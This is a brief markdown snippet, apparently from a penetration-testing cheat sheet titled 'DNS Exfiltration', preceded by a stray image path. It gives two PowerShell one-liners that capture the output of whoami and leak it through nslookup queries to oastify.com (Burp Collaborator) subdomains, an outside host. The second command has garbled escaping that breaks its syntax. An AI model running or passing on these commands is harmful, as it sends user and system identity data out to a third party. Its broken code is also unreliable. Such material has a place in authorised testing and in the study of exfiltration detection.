 # DNS Exfiltration
```powershell
$z=(whoami); nslookup -q=txt "$z.mf5xpzz0sucja0jcflgppyshm8szgu4j.oastify.com"

# or

powershell -c \"\a=\(whoami);\$data = '.v3zz09mtkgm21z2cjatuzsv9o0urih66.oastify.com';\$new = \$a+\$data;nslookup \$new\"
```

